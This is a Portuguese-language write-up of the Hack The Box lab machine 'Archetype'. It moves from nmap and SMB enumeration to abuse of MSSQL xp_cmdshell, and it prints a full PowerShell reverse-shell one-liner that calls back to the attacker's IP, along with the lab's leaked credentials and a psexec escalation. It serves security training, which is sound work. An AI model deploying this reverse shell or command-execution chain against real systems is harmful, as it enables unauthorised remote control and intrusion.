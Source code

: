 ```yaml
---
title: HTB Archetype Writeup
author: Hastur
date: 2021-09-03 21:00:00 -0300
categories: [Writeups, Hack The Box - Sarting Point]
tags: [HTB] [Starting point] [Windows]
thumb: /htb/htb-knife-logo.png
---
```


<img src="/htb/htb-archetype-logo.png">

<br>


| Nome | Archetype       |
|------|-------------|
|IP    | 10.10.10.27|
|Pontos| 0          |
|OS    | Windows    |
|Nível | Very Easy  |

<br>

## RECON

### Nmap
```
┌──(hastur㉿hastur)-[~/Archetype]
└─$ sudo nmap -v -p- -sCV -O -Pn 10.10.10.27 --min-rate=512
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-09-05T19:35:06
| Not valid after:  2051-09-05T19:35:06
| MD5:   0f97 d62c 8d46 e595 8b83 982b eb14 769f
|_SHA-1: 795d c811 74ec cd90 80e3 27d6 bb77 796c a2f0 d9d4
|_ssl-date: 2021-09-05T19:47:03+00:00; -35m18s from scanner time.
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 48m42s, deviation: 3h07m52s, median: -35m18s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-05T12:46:55-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-05T19:46:54
|_  start_date: N/A


```
Encontramos várias portas abertas nesta máqina, vamo começar pela `445 - SMB`.

### SMB

Vamos tentar uma conex]ao sem credenciais para verificar null session no SMB.

<img src="/htb/htb-archetype-1.png">

Temos acesso a algubs compartilhamentos, em expecial `backups`, vamos enumerá-lo.

<img src="/htb/htb-archetype-2.png">

Encontramos o arquivo, `prod.dtsConfig`, após baixarmos, e analizarmos, encontramos algumas informaçõs valiosas.

<img src="/htb/htb-archetype-3.png">

Ecnontramos as credenciais para um MSSQL: `ARCHETYPE\sql_svc:M3g4c0rp123`.

Em posse das credenciais, podemos tentar uma conex]ao remota utilizando o `mssqlclient.py`.

<img src="/htb/htb-archetype-4.png">

Conseguimos um acesso ao MSSQL, ótimo!

Podemos utilizar a função `IS_SRVROLEMEMBER`, para verificar se o usuário `sql_svc` tem privilégios administrativos.

<img src="/htb/htb-archetype-5.png">

O MSSQL retornou `1`, o que significa que temos privilégios administrativos.

Agora precisamos de uma forma de conseguir a leak de algum arquivo, ou melhor, um shell.

Existe uma funsão do MSSQL que permite executar comandos via query, podemos encontrar na pŕopria documentação da Microsoft [aqui](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15).

Vamos seguir os passos da documentação e testar algum comando.

<img src="/htb/htb-archetype-6.png">

Ótimo, conseguimos um RCE através do MSSQL, agora podemos tentar um reverse shell através de comandos no PowerSHell.

Primeiro vamos criar um payload de uma linha em power shell e salvá-lo no arquivo `shell.ps1`.

```
┌──(hastur㉿hastur)-[~/Archetype]
└─$ cat shell.ps1
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.251",8443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Agora vamos iniciar um server http com python `python3 -m http.server 80`.

<img src="/htb/htb-archetype-7.png">

Agora setamos um `netcat` na porta 8443 que setamos em nosso payload.

<img src="/htb/htb-archetype-8.png">

Com tudo pronto, podemos enviar um payload em Power Shell no MSSQL, que vai fazer o download do script em nosso HTTP server e em seguida executá-lo, nos dando um reverse shell no netcat que abrimos.

<img src="/htb/htb-archetype-9.png">

Se olharmos em nosso servidor HTTP, podemos ver que houve uma requisição vinda da Archetype.

<img src="/htb/htb-archetype-10.png">

E em nosso netcat, temos nosso reverse shell!!!

<img src="/htb/htb-archetype-11.png">

Ótimo, estamos dentro do host da Archetype, dentro do Desktop do usuário `sql_svc`, encontramos a flag do usuário.

<img src="/htb/htb-archetype-12.png">

## Escalação de privilégios

Após um bom tempo de enumeração local, decidi checar se há algum histórico do Power Shell no usuário e descobri uma informação extremamente importante.

<img src="/htb/htb-archetype-13.png">

Encontramos as credenciais do administrador: `administrator:MEGACORP_4dm1n!!`.

Em posse destas credenciais, podemos tentar um acesso remoto ao host utilizando o `psexec.py`.

<img src="/htb/htb-archetype-14.png">

E conseguimos nosso shell com privilégios administrativos no Host Archetype.

A flag do Administrator está em seu Desktop.

<img src="/htb/htb-archetype-15.png">


E comprometemos o server!!
<br>

<img src="/htb/hackerman.gif">
<br>



